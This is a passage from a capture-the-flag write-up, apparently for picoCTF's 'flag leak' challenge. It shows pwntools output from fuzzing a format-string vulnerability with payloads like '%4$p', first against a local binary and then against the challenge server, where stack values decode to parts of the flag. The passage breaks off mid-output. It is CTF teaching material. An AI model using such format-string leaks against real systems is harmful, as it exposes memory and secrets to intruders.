 ```
[*] Process './vuln' stopped with exit code 0 (pid 42907)
3:  
0x8049346

F\x93\x04
[+] Starting local process './vuln': pid 42909
4:  
0x70243425

%4$p
[*] Process './vuln' stopped with exit code 0 (pid 42909)
[+] Starting local process './vuln': pid 42911
5:  

[*] Stopped process './vuln' (pid 42911)
[+] Starting local process './vuln': pid 42913
6:  

[*] Stopped process './vuln' (pid 42913)
[+] Starting local process './vuln': pid 42915
7:  

[------------------SNIP--------------------]

�2��
[+] Starting local process './vuln': pid 43115
[*] Process './vuln' stopped with exit code 0 (pid 43115)
99:  
0x804c000

\x00\x04
[*] %4$pflag{fake_for_testing}
```

We successfully leaked the flag from the stack

So i made one to run on the remote server

Here's my exploit script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/picoctf/flagleak/exploit.py)

Running it works

```
└─$ python2 exploit.py
[+] Opening connection to saturn.picoctf.net on port 50529: Done
36:  
0x6f636970

pico
[*] Closed connection to saturn.picoctf.net port 50529
[+] Opening connection to saturn.picoctf.net on port 50529: Done
37:  
0x7b465443

CTF{
[*] Closed connection to saturn.picoctf.net port 50529
[+] Opening connection to saturn.picoctf.net on port 50529: Done
38:  
0x6b34334c

L34k
[*] Closed connection to saturn.picoctf.net port 50529
[+] Opening connection to saturn.picoctf.net on port 50529: Done
39:  
```